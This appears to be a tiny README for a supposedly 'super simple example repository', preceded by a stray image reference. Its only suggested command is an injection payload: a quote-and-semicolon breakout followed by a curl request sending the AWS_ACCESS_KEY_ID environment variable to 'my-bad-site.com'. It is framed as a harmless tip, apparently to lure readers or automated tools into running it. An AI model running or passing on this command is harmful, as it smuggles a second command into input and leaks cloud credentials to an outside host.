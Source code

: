 # Example Repo

This is a super simple example repository!

You could do this:

`a";curl http;//my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`

